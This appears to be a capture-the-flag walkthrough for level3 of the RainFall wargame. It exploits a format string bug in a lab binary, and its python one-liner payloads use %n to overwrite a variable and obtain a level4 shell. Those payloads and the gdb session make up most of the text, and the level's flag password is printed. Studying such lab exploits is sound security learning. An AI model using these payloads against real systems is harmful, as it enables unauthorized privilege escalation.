 # Walkthrough level3

In this binary we have `fgets()` who is called with a size to read of 512 and
our buffer can store 520 chars. We don't have a buffer overflow but we can see
our buffer is used in the format string of printf:

```bash
level3@RainFall:~$ ./level3
%p
0x200
```

This is potientialy [insecure](https://owasp.org/www-community/attacks/Format_string_attack)
and we are going to exploit this to change the return value of printf to 64.

`printf("%n")` write number of chars print before '%n' and write it
in the value pointed.

payload = "\<address of var to change\> + 60 chars" + "%n"

Check if the address is set:

```bash
level3@RainFall:~$ python -c "print('\x8c\x98\x04\x08' + '%08x ' * 5)" | ./level3
00000200 b7fd1ac0 b7ff37d0 0804988c 78383025
```

Now we are trying to change the return value of printf. Place a breakpoint,
create the payload, run gdb with the payload as argument and check the return
value:

```gdb
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
=> 0x080484df <+59>:    cmp    eax,0x40

level3@RainFall:~$ python -c "print('\x8c\x98\x04\x08' + '%08x ' * 3 + '%n')" > /tmp/test

(gdb) r < /tmp/test
(gdb) p $eax
$3 = 31

```

Do the same thing but set the value to 64:

```bash
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%08x ' * 3 + 'A' * 33 + '%n')"; cat ) | ./level3
00000200 b7fd1ac0 b7ff37d0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

Go further:

- `%X$x`: take the X argument'
- `%hn`: write only 2 bytes of the address

Another payload with this new things:

```bash
level3@RainFall:~$ (python -c 'print("\x8c\x98\x04\x08" + "%60d%4$n")'; cat) | ./level3
Wait what?!
whoami
level4
```
